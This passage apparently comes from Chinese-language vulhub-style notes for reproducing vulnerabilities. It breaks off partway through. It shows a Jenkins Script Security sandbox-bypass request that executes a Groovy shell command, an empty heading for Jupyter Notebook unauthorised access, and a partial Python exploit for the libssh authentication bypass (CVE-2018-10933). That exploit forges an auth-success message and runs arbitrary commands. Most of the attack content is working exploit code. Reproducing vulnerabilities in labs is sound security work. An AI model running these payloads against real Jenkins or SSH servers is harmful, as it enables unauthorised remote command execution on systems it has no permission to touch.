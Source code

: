 发送下面请求:

```
http://your-ip:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript
?sandbox=true
&value=public class x {
  public x(){
    "touch /tmp/success".execute()
  }
}
```

/tmp/success已成功创建：

# **[Jupyter Notebook 未授权访问漏洞](https://vulhub.org/#/environments/jupyter/notebook-rce/)**


# **[libssh Authentication Bypass Vulnerability(CVE-2018-10933)](https://github.com/vulhub/vulhub/blob/master/libssh/CVE-2018-10933/README.zh-cn.md)**

## **[漏洞复现](https://www.seebug.org/vuldb/ssvid-97614)**

```
#!/usr/bin/env python3
import sys
import paramiko
import socket
import logging

logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
bufsize = 2048


def execute(hostname, port, command):
    sock = socket.socket()
    try:
        sock.connect((hostname, int(port)))

        message = paramiko.message.Message()
        transport = paramiko.transport.Transport(sock)
        transport.start_client()

        message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
        transport._send_message(message)

        client = transport.open_session(timeout=10)
        client.exec_command(command)

        # stdin = client.makefile("wb", bufsize)
        stdout = client.makefile("rb", bufsize)
        stderr = client.makefile_stderr("rb", bufsize)

        output = stdout.read()
        error = stderr.read()

        stdout.close()
        stderr.close()

        return (output+error).decode()
    except paramiko.SSHException as e:
```